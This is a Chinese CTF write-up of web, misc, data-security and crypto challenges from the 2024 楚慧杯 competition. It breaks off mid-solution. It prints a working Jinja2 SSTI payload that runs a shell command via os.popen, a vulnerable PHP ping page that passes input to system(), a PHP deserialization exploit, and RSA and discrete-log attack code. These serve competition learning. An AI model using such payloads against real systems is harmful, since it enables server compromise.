# 2024年第九届“楚慧杯”湖北省网络与数据安全实践能力竞赛 WP-先知社区

> **来源**: https://xz.aliyun.com/news/16284  
> **文章ID**: 16284

---

### web

### 速算比赛





### Sal的图集

ssti



```
{{config.__class__.__init__.__globals__.get("os").popen('tac /flag').read()}}

```



### popmart

index.php源码

```
<?php
   173  $pat = "/^(((1?\d{1,2})|(2[0-4]\d)|(25[0-5]))\.){3}((1?\d{1,2})|(2[0-4]\d)|(25[0-5]))/";
   174  
   175  if(isset($_POST['lsj'])) {
   176      $lsj = $_POST['lsj'];
   177      if (empty($_POST['lsj'])) {
   178          echo("没C 你让我打你啊");
   179      }
   180      elseif (preg_match("/[`;\|\&$() \/\'>\"\t]</", $lsj)) {
   181          echo("C就C吧，开什么挂啊~");
   182      }
   183      elseif(!preg_match($pat,$lsj)){
   184          echo "格式都不对你怎么C";
   185      }
   186      elseif(strlen($lsj)>12){
   187          echo "谁叫你C这~么长的";
   188      }
   189      else{
   190          @system("ping -c 2 $lsj ");
   191      }
   192  }
   193  ?>
```

读到p0pmart.php，p0pmart.php存在反序列化漏洞


```
<?php
error_reporting(0);
require_once("flag.php");

class popmart {
    public $yuki;
    public $molly;
    public $dimoo;

    public function __construct() {
        $this->yuki = 'tell me where';
        $this->molly = 'dont_tell_you';
        $this->dimoo = "you_can_guess";
    }

    public function __wakeup() {
        global $flag;
        global $where_you_go;
        $this->yuki = $where_you_go;

        if ($this->molly === $this->yuki) {
            echo $flag;
        }
    }
}

$pucky = $_GET['wq'];
if (isset($pucky)) {
    if ($pucky === "二仙桥") {
        extract($_POST);
        if ($pucky === "二仙桥") {
            die("<script>window.alert('说说看，你要去哪？？');</script>");
        }
        unserialize($pucky);
    }
}
构造pop
<?php
class popmart{
    public $yuki;
    public $molly;
    public $dimoo;
    public function __construct(){
        $this->yuki='tell me where';
        $this->molly='dont_tell_you';
        $this->dimoo="you_can_guess";
    }
    public function __wakeup(){
        global $flag;
        global $where_you_go;
        $this->yuki=$where_you_go;
        if($this->molly === $this->yuki){
            echo $flag;
        }
    }
}
$exploit = new popmart();
$serialized_exploit = serialize($exploit);
echo $serialized_exploit;
#O:7:"popmart":3:{s:4:"yuki";s:13:"tell me where";s:5:"molly";s:13:"dont_tell_you";s:5:"dimoo";s:13:"you_can_guess";}
?>
```



### misc

#### 不良劫

图片放在随波逐流，有一张图片



文件分离

得到一张二维码，



用stegsolve得到一张缺定位符的二维码


补一下


在线网站扫一下，得到第一部分的flag

DASCTF{014c6e74-0c4a-48fa



面具图片是盲水印


合并起来：

DASCTF{014c6e74-0c4a-48fa-8b33-ced16f847e39}

#### gza\_Cracker

tcp流11给了字典



放到文本里面



解码



DASCTF{M0Y\_W1sh\_Y0u\_LogF1le\_Usg32WEM}

### DS

#### ds-findphone

提取出734等开头的电话号码，并且存放到csv文件中。

```
import re
import csv

tmp = [734, 735, 736, 737, 738, 739, 747, 748, 750, 751, 752, 757, 758, 759, 772, 778, 
782, 783, 784, 787, 788, 795, 798, 730, 731, 732, 740, 745, 746, 755, 756, 766, 
767, 771, 775, 776, 785, 786, 796, 733, 749, 753, 773, 774, 777, 780, 781, 789, 
790, 791, 793, 799]

data = open('data.txt','rb').read()
f = open('output.csv', 'w', newline='', encoding='utf-8')
writer = csv.writer(f)
head = ['category','value']
writer.writerow(head)

for i in tmp:
    t = str(i).encode()
    pattern = t + rb'\d{8}'
    matches = re.findall(pattern, data)
    for match in matches:
        print(match)
        message = ['phone',match.decode()]
        writer.writerow(message)
```





DASCTF{66079048478833352585733002322295}

### CRYPTO

#### ddd

```
import gmpy2
import libnum

def continuedFra(x, y):
    cf = []
    while y:
        cf.append(x // y)
        x, y = y, x % y
    return cf
def gradualFra(cf):

    numerator = 0
    denominator = 1
    for x in cf[::-1]:
        # 这里的渐进分数分子分母要分开
        numerator, denominator = denominator, x * denominator + numerator
    return numerator, denominator
def solve_pq(a, b, c):

    par = gmpy2.isqrt(b * b - 4 * a * c)
    return (-b + par) // (2 * a), (-b - par) // (2 * a)
def getGradualFra(cf):

    gf = []
    for i in range(1, len(cf) + 1):
        gf.append(gradualFra(cf[:i]))
    return gf


def wienerAttack(e, n):

    cf = continuedFra(e, n)
    gf = getGradualFra(cf)
    for d, k in gf:
        if k == 0: continue
        if (e * d - 1) % k != 0:
            continue
        phi = (e * d - 1) // k
        p, q = solve_pq(1, n - phi + 1, n)
        if p * q == n:
            return d

n = 114566998957451783636756389276471274690612644037126335470456866443567982817002189902938330449132444558501556339080521014838959058380963759366933946623103869574657553262938223064086322963492884606713973124514306815995276393344755433548846003574038937940253826360659447735554684257197194046341849089254659225497
e = 35489734227210930185586918984451799765619374486784192218215354633053183935617953856556709715097294481614236703293033675674496036691242573294182072757562322996800390363453350727372642264982749305833933966045097125311467413670410802534093354414115267442785896373815076066721029449240889291057288090241124904705
c = 60503455347700500866544596012233537789678841391057706123172519773588895502922586197178148979273264437566411675346207472455036341903878112074983509557751805365618433536738111588239911292341288514123006967218545943520736254346030465088445419278775539026233686559207400401082452551955780877227801939191694370380
d=wienerAttack(e, n)
m=pow(c, d, n)
print(libnum.n2s(m).decode())

```

#### QAQTAT

```
from Crypto.Util.number import *
from hashlib import sha256
from random import *
def enc(pt, G, A, T, S, p):
    s = randint(0,p-1)
    D = G^s
    E = A*T*A
    F = D*E*D
    K = list(D*S*D)
    key = sum(K[0])+sum(K[1])+sum(K[2])
    mask = int(sha256(str(key).encode()).hexdigest(),16)
    ct = pt ^^ mask
    return ct, F

p =  72887242108660141996862343556330151015969690949835567252527194788428065480383
Fp2.<i> = GF(p^2, modulus=x^2+1)
M = MatrixSpace(Fp2, 3, 3)

pk =  ([(17721183402259872020800275954210023274983052570120081248291897425608931477093*i + 32398110280895896734010284949974832063887503132353681078977206899204202173789, 54531634495057046991515273558305428867102201405617856305008554208336946545276*i + 53559176432820530464958340934397135653021175198597495321065224929188410347695, 27719945502856754481236098196014205483081586087367078493933408080194499938927*i + 1450628736387393873166171805424299538505476789523674611289973478290718453200), (57242423786686483363839647362581564383925732392730073374546590355998555747077*i + 573726326354574516128249317235875704460857319673337707555095009277545125755, 33631043256657770245013631632455702904903259491780484310654749784948198388976*i + 17344746653834202604930860577508757708688427949046279718508635007113840369042, 37771390186920740637371383242878514021347606565375600086363978842439775164973*i + 60264754185911116825495147907207494752330900415794996812483089251259003404228), (1163730453993018743008743150834548760986076138562570206571825145859591284352*i + 69245390362211526197537288211735612650619880945856387683074182933575799994162, 11137807706588795799057940108843238078078690609437386007163034291855328303661*i + 50795522649623533714787572047531722836395032085224035511036953078383612475598, 14354786571703727534706086386589187674076604263117377684131521866407943036307*i + 63028649680815097939155846824928638616844025040257105384123424769274942520895)], [(22137116252880790433838296157765927318220905592359967466680754349755815464341*i + 35503968364379821899511866562472775961434113516937033217642581531414863539290, 38346074307552448152239080224505166810289185210503265380269711384969731945517*i + 9333819647786551924409858116441570177115099865486742684028611902450000042407, 24608192510515673607042276468532809071945836783394960695059783085937608049755*i + 27099766371861599260580052331632986107092105438254563604629919595057370886149), (57539731529782952718529369617033412770127782205874818027724894673104814770991*i + 12431864123786174601413168140961685219607645783666490625760143190724674574386, 33510082449726132893492104159133966168598115972734064630878005553829725389082*i + 30594711977745700371548334707069524826346332947574826081979927125841475148328, 8911862104171403632946802970568635607253840071000107875759139060453368618583*i + 51594672749496705581452789883241278156858476777167382827032876227546058970732), (58105830161247358431125768499050987088161417325586965601350797391396603985470*i + 10949064084676782939947256128733523229613253182051362970560478801614590446300, 6665352489343222248969975791152178151760060704226637217535985452272551528693*i + 16163109497937280055564868323730465088174193174761590036929535644203224067166, 26147088265849488467397913386934580340556987670869413865359802108333761377560*i + 14170094609019059182842713618319151553137248441974849089555832123638494739417)], [(60066006389024369318961505483331049048095679333675437984483948643792214278503*i + 67617085525047580942273623886038114942547589259839196477555874755427651308048, 38692305959834079988532869421062338838072016075793686080934562521314366274998*i + 21104829450473981189549299039898127784065322316764325995863199136802573514, 7207625628360021282792621977024027446511231977201394776410095364976996279450*i + 23039079766688651678553952766794875180844089420934577132338235904018762773928), (10808368042897084491009063074724200907600038030639153659288985642861405920614*i + 33955795465220353002933680692690511153845418737513482128237117905262919879043, 21645210772494061734726430463955231707074915293749580279327741388687068110310*i + 62225984739450865202997071369617271241348810092608626482294704825641320606694, 14572118842071162051223076904993643512402905544627821044103215186921277812496*i + 63504547636870837320642724540312613748726280369811190421219651308407770510674), (6529211642735966744323364626486352288002532267939478445216264742350974653419*i + 43426895500365913698127867498420593427453574994051597107529725996420257433857, 66636149494607064863031794353485502915121295051850619450321561966293398587284*i + 51049172134567530748763269555600518661288880531459625871071308764595168859033, 42297258788816007263333796194491196601979606573843177791726417124128570106777*i + 45527674821983322767637713856131638914194577467349514130179266972864796164733)], [(47645610858583239528541540288030905132801730740336899517917521534427703920375*i + 13272393664089987551368548207128885229248289454405159277755757369580866096516, 60503024931869977830369448001966194434192750710631225090391559259672930497207*i + 22742672333325631628906219543935772962495637869131049729874762344108069789046, 18239371575343144081671835175136676417172797381923442300525086630600561560114*i + 53605095942301227312866863441233162082087535371838738595931070092230378325532), (49652795839344946948771531270341537200526957150620826334216871981974859849848*i + 72788891932812016325514298655742330969740202920835574638161526839627026310392, 58465406030985457122487065262985150103086610852826560192123766406670919681919*i + 41631921368744416558173670147590406285376603436284660888096365325833457519047, 2867068797023070369258694926242485369317317985428997150826022662547346928319*i + 199536555238705400453079146297641296197748614855192340202929119323998667173), (19319782936524636558881137449470396788888469756320580071801690941326971557928*i + 34694728896207512382372151140975478616355941017631874070450334268575015485538, 60420266086997924618637147844041161464210208935194926422677077391866663978425*i + 13672363312837218411993834816309940812825734002380106434784905443915361955247, 56317025568717741728727542740124505299029374963112095990350877412868385510001*i + 56960621295573230601502052571104746367180500789238336757504091383665514782189)])
F =  [(36081831373398765496490121898118275331597167308301671911642273861563666664545*i + 20818485079783326431414952124332440995164298376805349071762867760925654560129, 2080527476644284459469754065728582261439110792635520661740429151724797376184*i + 22485923248080983391383279592637691489160934672854638306617785344436031827838, 15544373162545014827602222261755865080947187122261471926061663568794038512828*i + 65994932829738499994169748656063604384011854387402875895186473718226656419067), (3553534440103543686958858303956716887328727627636404431097647427819509340361*i + 41182149981825439188243414995474733005799065992663037326956422731949977723727, 11444151159046255413538671703716370245288291793592500278345001664024824339590*i + 1802783416049323926195923226865768221398255563865542946492803065162093093803, 15739175840903697568714274177182938758189586472507039731239155962622285528109*i + 38249065906628598713138583591858150126778794837077688369911160900556744463900), (14364753807737302773559096493138893453118094354943941768609481298414054855231*i + 16290236676179704559365899211744462983770375364688247022596145726641137243214, 3863306473986430132042752882629555431418515741358351198972027547882636615940*i + 1209446834271293681961506708684952401569936830292701272655835127315444154958, 21868026584808712490812183410257662299067350008298604021123682243508255905173*i + 12828201007038003022201361213007595366913298546122923089499182187938898042596)]
ct =  96910798667771988374291172958072220832574586618080134344021393928577220469428

A, T, S, G = [M(ii) for ii in pk]
F = M(F)


############################################################### attack
E = A*T*A
detA, detT, detS, detG, detE, detF = A.det(), T.det(), S.det(), G.det(), E.det(), F.det()
r = 2244966557637008779362441591080406338119704738381872153797151


import subprocess

command = [
    './cado-nfs.py',
    '-dlp',
    '-ell', str(r),
    'target='+str(t1),
    str(p)
]
#1541758195020130454925136833461872657607368759409055632195831

command = [
    './cado-nfs.py',
    '-dlp',
    '-ell', str(r),
    'target='+str(t2),
    str(p)
]
#780392429787953543532147509264510635118839088869098098140941

try:
    result = subprocess.run(command, check=True, text=True, capture_output=True)
    print(result.stdout)
except subprocess.CalledProcessError as e:
    print(f"ERROR: {e.returncode}")
    print("ERROR:", e.stderr)


Fr = GF(r)
s1 = Fr(1541758195020130454925136833461872657607368759409055632195831)
s2 = Fr(780392429787953543532147509264510635118839088869098098140941)
ss = discrete_log(pow(t1, 6*r, p), pow(t2, 6*r, p), operation="*", ord=(p-1)//r)
s = crt([int(ss), int(s1/s2)], [(p-1)//(6*r), r])

ss = s
for ii in range(6):
    s = ss + ii * (p-1) // 6
    D = G^int(s)
    K = list(D*S*D)
    key = sum(K[0])+sum(K[1])+sum(K[2])
    mask = int(sha256(str(key).encode()).hexdigest(),16)
    pt = ct ^^ mask
    if(D.det()*detE*D.det() == detF):
        print(long_to_bytes(pt))
        break

```

#### Mypow

`Mypow(b,e,mod)`函数相当于`pow(m,e,n)`函数，但是对于不同的幂e结果不同。当e为偶数时，相当于pow(m,e,n);当e为奇数时，相当于pow(m,e-1,n)。本题的`e = next_prime(666)`，显然是一个素数(必然是奇数)，因此真正的`e = next_prime(666)-1`。  
经计算，`gcd(e,phi)=e`，因此演变为有限域下开根问题。分别在G F ( p ) , G F ( q ) GF(p),GF(q)*GF*(*p*),*GF*(*q*)上开e次方根，之后crt组合一下，求出所有的m，再判断字符串中是否含有`DASCTF`即可得到flag。

```
#sage
import gmpy2
from Crypto.Util.number import  *

n = 36443283250594259606482132779262570582448178589602577809591307671554949253094255209079689901493052116793388954529442162972106210862341856282788030374324677114528044629385805693771773377070021111949953333360526159026822968061585876873187059674130307295006486032106471182393880915860569773206853864515489855553
